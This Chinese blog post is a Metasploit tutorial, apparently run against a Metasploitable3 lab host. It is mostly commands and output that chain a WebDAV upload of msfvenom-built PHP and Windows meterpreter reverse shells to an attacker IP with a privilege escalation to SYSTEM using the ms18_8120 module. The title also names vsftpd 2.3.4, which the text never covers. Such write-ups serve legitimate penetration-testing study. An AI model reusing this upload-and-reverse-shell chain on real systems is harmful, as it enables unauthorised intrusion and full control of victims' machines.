 ```yaml
---
title: metasploit深入学习之ms18_8120&&vsftpd2.3.4
index_img: /img/2019-01-22/index.jpg
date: 2019-01-22 20:32:23
tags: 
- 
---
```

metasploit是一款非常给力的后渗透系统，本次通过复现vsftpd2.3.4的漏洞和ms18_8120的漏洞来学习metasploit
<!--more-->
#### 介绍
&emsp;&emsp;首先一点，为什么metaslpoit（下称msf）强大呢，msf本身就有1851个漏洞利用模块，1046个辅助模块，541个漏洞利用模块，44个加密模块（v5.0.1），不仅如此，他还可以调用外部插件，而且本身也是开源的，也可以加载自己写的模块，msf很好但也不是最好的，本次主要是以学习msf为主，当然实验环境下也有更好的入侵方法。
&emsp;&emsp;进入msf的命令是msfconsole，如果提示数据库为开启则可以用`/etc/init.d/postgresql start`开启metasploit的数据库，如果你需要完成一次渗透测试，如果你手上没有合适的工具的话，msf可以完成所有的工作
#### 一、扫描
&emsp;&emsp;msf调用nmap扫描的命令是大`db_nmap`，具体用法和nmap使用差不多，也可以使用msf的扫描模块进行扫描，常用的扫描模块有`brute_dirs`,`dir_listing`,`dir_scanner`。
#### 二、复现
&emsp;&emsp;目标主机192.168.1.66:8585上存在一个dav2的上传漏洞，攻击思路大概是我们可以先利用这个上传漏洞上传一个payload，实验入侵主机到进一步提权。
首先我们先制作一个payload
```
root@kali:~# msfvenom -p php/meterpreter_reverse_tcp lhost=192.168.1.70 lport=13579 -f raw > /root/Desktop/13579.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 30656 bytes

```
`-p`选择payload，`lhost`是本地ip，`lport`为本地监听端口，`-f`格式，`>`输出为文件

然后我们需要上传脚本，上传脚本会用到davtest这个工具，davtest支持自动发送文件漏洞，目录自动随机帮助隐藏文件，发送文本文件，并尝试移动到可执行文件的名称，上传的文件自动清理，发送任意文件。
```
root@kali:~/Desktop# davtest -url http://192.168.1.66:8585/uploads/ -uploadfile 13579.php -uploadloc 13579.php 
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://192.168.1.66:8585/uploads
********************************************************
 unless  Uploading file
Upload succeeded: http://192.168.1.66:8585/uploads/13579.php
```
`-url`是网址，`-uploadfile`是要上传的文件，`-uploadloc`是要上传的位置。准备好了就可以开始打了
```
root@kali:~# msfconsole -q
[-] ***
[-] * WARNING: No database support: could not connect to server: Connection refused
	Is the server running on host "localhost" (::1) and accepting
	TCP/IP connections on port 5432?
could not connect to server: Connection refused
	Is the server running on host "localhost" (127.0.0.1) and accepting
	TCP/IP connections on port 5432?

[-] ***
[*] Starting persistent handler(s)...
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp 
payload => php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lport 13579
lport => 13579
msf5 exploit(multi/handler) > set lhost 192.168.1.70
lhost => 192.168.1.70
msf5 exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.1.70:13579 
```
启动msf时-q是不显示封面，`exploit -j -z`-j是把exploit放到jobs里，-z挂后台，jobs的意思是当监听到反弹的shell之后会建立一个session，然后不会不停下来，继续监听。session的可以理解为一个会话。到这里，我们只需要访问一下我们上传的payload就可以反弹shell了(可以用浏览器访问)
```
curl http://192.168.1.66:8585/uploads/13579.php
```
getshell
```
msf5 exploit(multi/handler) > [*] Meterpreter session 1 opened (192.168.1.70:13579 -> 192.168.1.66:49816) at 2019-01-22 02:30:29 -0500
[*] Meterpreter session 2 opened (192.168.1.70:13579 -> 192.168.1.66:49817) at 2019-01-22 02:30:31 -0500

meterpreter > background
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter php/windows  LOCAL SERVICE (0) @ METASPLOITABLE3  192.168.1.70:13579 -> 192.168.1.66:49816 (192.168.1.66)
```
background是返回msf控制台，getshell之后得到的shell是local server的权限，我们上传一个另外一个payload上去get更高权限的shell
```
root@kali:~/Desktop# msfvenom -p windows/meterpreter_reverse_tcp Lhost=192.168.1.70 lport=13789 -f exe > 13789.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 179779 bytes
Final size of exe file: 254976 bytes
```
上传
```
root@kali:~/Desktop# davtest -url http://192.168.1.66:8585/uploads/ -uploadfile 13789.exe -uploadloc 13789.exe
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://192.168.1.66:8585/uploads
********************************************************
 unless  Uploading file
Upload succeeded: http://192.168.1.66:8585/uploads/13789.exe
```
msf开启监听,`sessions -i 1`选择id为1的session，`getwd`获取当前绝对路径，`execute -f`执行文件
```
msf5 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp 
payload => windows/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > show options 
msf5 exploit(multi/handler) > set lport 13789
lport => 13789
msf5 exploit(multi/handler) > exploit -j -z

msf5 exploit(multi/handler) > sessions -i 1
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.1.70:13789 

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getwd
C:\wamp\www\uploads
meterpreter > execute -f "C:\\wamp\\www\\uploads\\13789.exe"
Process 1372 created.
meterpreter > [*] Meterpreter session 3 opened (192.168.1.70:13789 -> 192.168.1.66:50670) at 2019-01-22 02:38:39 -0500
```
我们用上传的第一个payload执行我们的第二次payload，就可以得到普通用户权限
```
msf5 exploit(multi/handler) > sessions 
Active sessions
===============

  Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  1         meterpreter php/windows  LOCAL SERVICE (0) @ METASPLOITABLE3           192.168.1.70:13579 -> 192.168.1.66:53138 (192.168.1.66)
  2         meterpreter x86/windows  NT AUTHORITY\LOCAL SERVICE @ METASPLOITABLE3  192.168.1.70:13789 -> 192.168.1.66:54852 (192.168.1.66)
```
接下来用ms18_8120提权

```
msf5 exploit(multi/handler) > use exploit/windows/local/ms18_8120_win32k_privesc 
msf5 exploit(windows/local/ms18_8120_win32k_privesc) > set session 3
session => 3

msf5 exploit(windows/local/ms18_8120_win32k_privesc) > exploit 

[*] Started reverse TCP handler on 192.168.1.70:4444 
[*] Sending stage (179779 bytes) to 192.168.1.66
[+] Exploit finished, wait for privileged payload execution to complete.
[*] Meterpreter session 4 opened (192.168.1.70:4444 -> 192.168.1.66:50799) at 2019-01-22 02:42:04 -0500

meterpreter > 

```
查看sessions就可以看到普通用户权限变成了system权限
```
msf5 exploit(windows/local/ms18_8120_win32k_privesc) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  1         meterpreter php/windows  LOCAL SERVICE (0) @ METASPLOITABLE3           192.168.1.70:13579 -> 192.168.1.66:53138 (192.168.1.66)
  2         meterpreter x86/windows  NT AUTHORITY\LOCAL SERVICE @ METASPLOITABLE3  192.168.1.70:13789 -> 192.168.1.66:54852 (192.168.1.66)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ METASPLOITABLE3         192.168.1.70:4444 -> 192.168.1.66:62289 (192.168.1.66)
```
到此，复现完毕